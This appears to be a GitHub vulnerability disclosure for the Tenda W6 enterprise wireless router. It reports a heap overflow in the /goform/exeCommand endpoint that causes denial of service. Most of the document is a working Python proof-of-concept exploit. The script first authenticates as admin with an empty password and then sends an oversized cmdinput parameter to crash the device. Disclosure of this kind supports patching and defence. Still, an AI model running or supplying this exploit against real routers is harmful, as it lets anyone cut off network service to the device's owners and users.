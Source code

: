 # Tenda W6 Heap Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A heap overflow vulnerability in /goform/exeCommand in Tenda W6 v1.0.0.9(4122) allows an attacker to construct cmdinput parameters for a heap overflow. An attacker can use this vulnerability to cause a denial of service (DoS). 

Firmware Download：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability exploit process

![image-20220707155204309](pic/image-20220707155204309.png)

A denial of service (DoS) can be caused by modifying the heap structure when freeing after a heap overflow.

```python
import requests
from pwn import *



burp0_url = "http://192.168.5.1/login/Auth"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"65",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Connection":"close"}

data1='usertype=admin&password=&time=2022;7;6;14;9;6&username='
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

print len(data1)

# sleep(0.1)

burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="cmdinput="+'a'*0x100


requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
print len(data1)
```

[The specific reproduction process is shown in the video](./video/1.mp4)
